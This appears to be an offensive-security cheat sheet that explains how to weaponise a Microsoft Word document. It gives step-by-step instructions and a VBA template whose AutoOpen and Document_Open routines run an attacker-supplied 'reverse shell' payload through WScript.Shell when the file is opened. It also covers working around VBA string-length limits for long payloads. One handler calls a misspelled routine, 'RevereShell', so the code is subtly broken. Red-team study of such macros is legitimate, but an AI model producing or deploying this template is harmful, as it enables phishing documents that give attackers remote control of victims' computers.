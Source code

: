 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md.md">Top of Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Macros
## Table of Contents
* [How to Add a Macro to a Microsoft Word Document](#how-to-add-a-macro-to-a-microsoft-word-document)
* [Example Macro](#example-macro)
* [Example Macro Syntax Explained](#example-macro-syntax-explained)
* [VBScript, CScript, and WScript](#vbscript-cscript-wscript)

## How to Add a Macro to a Microsoft Word Document
1. Click-on "View" > "Macros" 
2. Set "Macro name" to be "Reverse Shell"
3. Set "Macros in" to be the name of the current Word document
4. Click-on "Create"
5. Replace the provided template code with your payload (see below for an example)
6. Save the macro-embedded file as a "Word 97-2003 Document"

## Example Macro
To test the example code below, save it with a .doc or .docm file (do not use .docx). Ensure to use variables to store strings as VBA limits string lengths to no more than 255 per string. In other words, if you have a long payload, break it up and then concatenate each part to a variable. 
```vba
Sub AutoOpen()
  ReverseShell
End Sub

Sub Document_Open()
  RevereShell
End Sub

Sub ReverseShell()
  ' copy/paste your payload into the FOO variable
  Dim FOO As String
  FOO = ""
  
  CreateObject("Wscript.shell").Run FOO
End Sub
```

## Example Macro Syntax Explained
```bash
# Sub = used like a function, does not return values (functions do)
# AutoOpen() = predefined procedure; executed when a new doc is opened
# Document_Open() = predefined procedure; exec when a doc is already opened
# ' = comments
# Dim = used to declare a var (example declares FOO as a string var)
# CreateObject() = ???
# End Sub = represents the end of "sub" procedure within our exploit
```

## VBScript, CScript, and WScript
```bash
'cscript' runs entirely in the command line and is ideal for non-interactive scripts.
'wscript' will popup Windows dialogue boxes for user interaction.
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md.md">Top of Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page

